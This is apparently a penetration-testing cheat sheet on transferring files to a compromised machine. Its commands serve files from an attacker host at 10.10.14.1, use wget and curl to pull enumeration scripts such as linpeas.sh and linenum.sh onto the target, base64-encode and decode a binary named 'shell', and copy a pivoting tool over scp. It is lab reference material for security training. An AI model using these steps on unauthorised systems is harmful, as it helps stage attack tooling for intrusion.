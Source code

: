 # Transferring Files

| Command                                                | Description                                                 |
| ------------------------------------------------------ | ----------------------------------------------------------- |
| `python3 -m http.server 8000`                          | Start a local webserver                                     |
| `wget http://10.10.14.1:8000/linpeas.sh`               | Download a file on the remote server from our local machine |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine |
| `base64 shell -w 0`                                    | Convert a file to `base64`                                  |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`      | Convert a file from `base64` back to its origin             |
| `md5sum shell`                                         | Check the file’s `md5sum` to ensure it converted correctly  |

## Transferring files using SCP

### Transfer a folder

`scp -r rpivot ubuntu@10.129.84.139:/home/ubuntu/`

### Transfer a file

`scp linenum.sh user@remotehost:/tmp/linenum.sh`
